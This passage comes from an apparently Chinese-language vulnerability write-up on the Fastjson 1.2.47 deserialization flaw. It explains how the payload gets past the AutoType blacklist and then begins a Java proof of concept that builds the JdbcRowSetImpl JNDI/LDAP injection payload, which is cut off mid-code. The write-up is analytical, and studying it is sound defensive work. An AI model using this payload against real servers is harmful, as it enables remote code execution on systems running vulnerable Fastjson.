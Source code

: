 之后就是在setvalue中触发

> 如果没有开启 AutoType 的话也可以触发，如果没有开启，则红框处的if就不会进入，自然也不会走黑名单，而是直接从mapping中获取

之前看到其他博客说，一开始payload是分成两截，因为服务器的mappings自从加过恶意类之后，就会一直保持，然后就可以随便打了。

但是之后为了不让负载均衡，平摊payload造成有几率失败，就变成了一个payload

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.47 版本通杀payload
 */
public class fastjson1247
{
    public static void main(String[] args) {
//        test();
        String payload = "{\n" +
                "   \"a\":{\n" +
                "       \"@type\":\"java.lang.Class\",\n" +
                "       \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "   },\n" +
                "   \"b\":{\n" +
                "       \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "       \"dataSourceName\":\"ldap://127.0.0.1:1099/calc\",\n" +
